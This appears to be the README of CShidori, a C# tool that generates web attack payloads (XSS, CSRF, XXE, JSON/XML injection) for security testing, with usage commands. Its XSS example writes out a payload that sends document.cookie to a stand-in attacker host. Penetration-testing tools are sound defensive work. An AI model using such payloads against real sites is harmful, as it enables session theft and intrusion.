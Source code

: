 # CShidori

A C# "Thousand Birds" Payloads Generator

## Dev Roadmap

- use "badchars" list instead of -i parameter
- store badchars with Entity Framework

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)
Taisen: [Website](https://taisen.fr)

## supported modes/payloads

- Mutation
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Encoding

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -p 5 -i test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -i 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -i "'"
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -i "'"
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar" -i "'"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe -o file
.\CShidori.exe -m xxe -o call 
.\CShidori.exe -m xxe -o all 
```
### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge XSD in WSDL
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
